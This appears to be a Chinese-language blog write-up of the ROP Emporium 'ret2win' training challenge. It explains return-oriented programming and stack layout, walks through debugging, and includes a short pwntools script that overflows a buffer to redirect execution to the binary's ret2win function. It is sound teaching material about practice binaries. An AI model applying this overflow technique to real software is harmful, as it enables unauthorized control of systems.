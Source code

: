 ```yaml
---
title: ROP Emporium の ret2win
date: 2020-05-19 11:12:40
categories:
- WriteUPs
- ROP Emprium
tags:
- PWN
- ROP
- Stack
---
```

## Introduction

ROP是Return Oriented Programming（面向返回的编程）的缩写，是绕过DEP保护的攻击手段汇总。[ROP Emporium](https://ropemporium.com)是一个提供ROP练习的网站，对于理解和掌握ROP很有帮助。

<!-- more -->

## ROP链基础原理

根据函数调用规则，当跳转函数的时候会首先将子函数的返回地址入栈。对于被调用者来说，栈顶是返回地址，接着是自己的参数。然后，被调用者会对内存空间执行自己的操作，但是结束时会清理自己的占据的栈空间，使栈恢复到被调用之前的情况，实现栈平衡。最后被调用函数一般是以ret指令结尾，该指令将栈顶地址传递到IP寄存器，随后代码会跳转到栈顶存放的返回地址的位置。

rop链即是基于以上这个简单的原理，在代码空间中寻找以ret结尾的代码片段或函数（代码片段称为Rop gadgets），组合可以实现拓展可写栈空间、写入内存、shell等功能，依靠ret将代码执行权紧握在自己的手里。

## ret2win

ret2win是ROP Emporium提供的第一个ROP challenge，且和该网站提供的其他程序一样，分成了32位和64位的程序。这个challenge比较简单，下面简单的分析一下。

### ret2win32

#### Step 1

程序运行截图：

![](/img/ret2win/ret2win1.png)

checksec：32位程序，开启了DEP，所以需要考虑创造ROP链绕过

![](/img/ret2win/ret2win2.png)

#### Step 2

把程序丢到hopper disassembler里，找到一个有趣的函数pwnme，显然这里存在栈溢出：

![](/img/ret2win/ret2win3.png)

同时我们还发现一个很有趣的函数ret2win，通过这个函数可以直接查看flag的值：

![](/img/ret2win/ret2win4.png)

#### Step 3

用gdb看下这个程序，首先是main函数：

![](/img/ret2win/ret2win5.png)

在pwnme函数下个断点：

![](/img/ret2win/ret2win6.png)

可以看到此时栈顶指针ESP里存放的是0x80485d9，这是main函数call pwnme指令的下一条指令的地址。

所以我们的思路是将pwnme函数的返回地址覆盖为ret2win函数的入口。

EXP如下：

```Python
from pwn import *

sh = process('./ret2win32')
elf = ELF('./ret2win32')

shell_addr = elf.symbols['ret2win']

payload = 'a' * (0x28 + 0x4) + p32(shell_addr)

sh.send(payload)

sh.interactive()
sh.close()
```

执行后结果：

![](/img/ret2win/ret2win7.png)

#### Appendix

我们把程序断在发送完payload之后，看一下此时堆栈里面的情况：

![](/img/ret2win/ret2win8.png)

可以看到此时当pwnme结束之后，程序将跳转到ret2win函数。这样就完成了我们预定的栈布局，可以成功的实现对程序的控制。

### ret2win64

这里ret2win64仅仅是偏移量不一样，然后再注意一下64位程序EBP是0x8字节长度即可。就不具体分析了。

## 总结

这种ROP叫做ret2text，即执行程序中已有代码，例如程序中写有system等系统的调用函数，我们就可以利用控制已有的gadgets（以ret结尾的指令序列，通过这些指令序列，可以修改某些地址的内容）控制system函数。